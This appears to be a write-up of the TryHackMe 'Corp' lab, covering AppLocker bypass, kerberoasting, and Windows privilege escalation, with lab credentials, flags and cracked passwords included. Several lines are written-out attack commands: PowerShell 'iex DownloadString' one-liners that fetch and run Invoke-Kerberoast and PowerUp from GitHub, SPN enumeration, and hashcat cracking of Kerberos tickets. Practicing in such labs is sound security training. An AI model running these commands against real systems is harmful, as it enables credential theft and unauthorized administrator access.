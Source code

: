 ﻿# Try Hack Me - [Corp](https://tryhackme.com/room/corp)
##### Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

## Task 1 - Deploy the Windows machine 

In this room you will learn the following:
* Windows Forensics
* Basics of kerberoasting
* AV Evading
* Applocker

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.
```
Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

Username: corp\dark
Password: _QuejVudId6
> No answer needed
```

## Task 2 - Bypassing Applocker 

![](images/XtUZMLi.png)

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.
```
There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default. 

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.
> No answer needed
```

```
Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

Access the file and and obtain the flag.
> flag{a12a41b5f8111327690f836e9b302f0b}
```

## Task 3 - Kerberoasting 
![](images/9YDvbLg.png)

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

![](https://www.youtube.com/watch?v=LmbP-XD1SC8)

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
```
Lets first enumerate Windows. If we run setspn -T medin -Q ​ */* we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?
> fela
```

```
Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first get the Powershell Invoke-Kerberoast script.iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 

Now lets load this into memory: Invoke-Kerberoast -OutputFormat hashcat ​ |fl

You should get a SPN ticket.
> No answer needed
```
![](images/X2lGkzF.png)

```
Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

hashcat -m 13100 -​a 0 hash.txt wordlist --force

Crack the hash. What is the users password in plain text?
> rubenF124
```

```
Login as this user. What is his flag?
> flag{bde1642535aa396d2439d86fe54a36e4}
```

## Task 4 - Privilege Escalation 

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.
```
We will run PowerUp.ps1 for the enumeration.

Lets load PowerUp1.ps1 into memory.

iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way."

Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

What is the decoded password?
> tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;​ $T 
```
![](images/IMU9bcO.png)

```
Now we have the Administrator's password, login as them and obtain the last flag.
> THM{g00d_j0b_SYS4DM1n_M4s73R}
```

## Additional Resources

[Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

[HOWTO: Unattended Setup Parameters for Unattend.txt File](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461)